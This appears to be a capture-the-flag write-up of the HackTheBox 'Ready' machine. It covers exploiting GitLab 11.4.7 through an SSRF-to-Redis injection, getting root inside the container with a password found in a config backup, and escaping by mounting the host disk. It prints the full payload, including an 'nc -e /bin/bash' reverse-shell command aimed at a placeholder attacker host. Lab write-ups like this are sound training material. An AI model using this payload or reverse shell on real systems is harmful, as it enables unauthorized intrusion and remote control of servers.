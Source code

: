 ```yaml
---
title: Ready Hackthebox Writeup
date: 2020-12-17 09:00:00 +0800
categories: [Hackthebox, Active]
tags: []     # TAG names should always be lowercase
image: /assets/img/ready-hackthebox/ready-pic.jpg
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Luanne:~$


Column | Details
------------ | -------------
Name | Ready
IP | 10.10.10.220
Points | 30
Os | Linux
Difficult | Medium
Creator | [bertolis](https://app.hackthebox.eu/users/27897)
Out on | 28th November 2020

# Summary:~$

* Discovering the new host and scanning for open ports.
* Logging in `Port 5080`, which is a `gitlab` signup/signin page.
* Checking the gitlab version, which is `11.4.7`
* Looking for vulnerabilities for that version, found `SSRF - redis - RCE` in gitlab 11.4.7.
* Exploiting the `vulnerability` and getting the `reverse shell`.
* For `Privilege escalation`, found a password file and logged in as `root` in the container.
* **Mounting** the drives present in `/dev` of the container, to get the `Root Flag`.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/ready-hackthebox/nmap-automator-2.png)

I accessed port `5080` which shows a gitlab login and signup page.

___
![](/assets/img/ready-hackthebox/accessing-port-5080-3.png)

Along with that I also checked the `/robots.txt`.

___
![](/assets/img/ready-hackthebox/accessing-robots-txt-4.png)

There are a lot of directories but let's first `signup` and then `login`.

___
![](/assets/img/ready-hackthebox/registering-5.png)

The following page is displayed after logging in

___
![](/assets/img/ready-hackthebox/signed-in-6.png)

In such cases, first thing I do is to check the `version` of **Gitlab**. After checking the `help` option in menu, I got this

___
![](/assets/img/ready-hackthebox/help-section-version-7.png)

I googled a bit and got to know that `Gitlab` version `11.4.7` is vulnerable to `RCE via SSRF`.

I found a [`Git Repository`](https://github.com/jas502n/gitlab-SSRF-redis-RCE) and [`Live Overflow`](https://www.youtube.com/watch?v=LrLJuyAdoAg) also explained it in one of his videos.

Now creating a new `Project` in Gitlab by importing it via `git Repo byURL`.

___
![](/assets/img/ready-hackthebox/import-project-by-git-URL-12.png)

Now before pressing the `save` button, setting up proxy and turn on the interceptor on `Burp`.

After `Intercepting` the request, let's replace `import_url` parameter by the following payload:

------------ | -------------
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|nc -e /bin/bash IP PORT\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
 exec
 /ssrf.git
------------ | -------------

Make sure to check the [POC](https://github.com/jas502n/gitlab-SSRF-redis-RCE) for `RCE via SSRF`, I got the above payload after making some changes. (*Make sure you check the gaps specified in the POC, or else the playload won't work **It didn't in my case** .*)

___
![](/assets/img/ready-hackthebox/findal-req-16.png)

After listening on port 1234, I got a `Reverse shell` as `git`, converted it to an [interactive shell](https://netsec.ws/?p=337)

___
![](/assets/img/ready-hackthebox/tty-shell-19.png)

Got `User Shell`

___
![](/assets/img/ready-hackthebox/got-user-text-20.png)

After getting `user flag`, For `Privilege Escalation` I started with manual enumeration and got a `backup folder` in `/opt` directory.
It contained 3 files i.e. 
1. gitlab-secrets.json
2. gitlab.rb
3. docker-compose.yml

After having a look at each of these files, I found that `gitlab.rb` contained some `passwords`.

___
![](/assets/img/ready-hackthebox/few-passwords-23.png)

Simultaneously trying each password, `wW59U!ZKMbG9+*#h` one worked as **sudo su**.

___
![](/assets/img/ready-hackthebox/became-root-but-not-root-text-24.png)

After becoming root, I tried finding out the `root.txt` but there wasn't any because we are in a **container** as *root*.

___
![](/assets/img/ready-hackthebox/not-root-text.png)

After reading this blog on [Unprivileged container builds](https://kinvolk.io/blog/2018/04/towards-unprivileged-container-builds/), I tried the `new mount` technique, but before proceeding further I need to know the drives which are present in `/dev` directory with the name of `sda`.

___
![](/assets/img/ready-hackthebox/dev-sda-command-25.png)

There are 4 sda disks present, with the following names:
1. sda
2. sda1
3. sda2
4. sda3

I tried mounting all of them but only `sda2` worked.

___
![](/assets/img/ready-hackthebox/only-sda-test3-worked-27.png)

Entering the `test-sda2` folder and accessing the `root` directory, I got the `Root Flag`.

___
![](/assets/img/ready-hackthebox/got-root-flag-28.png)

___
















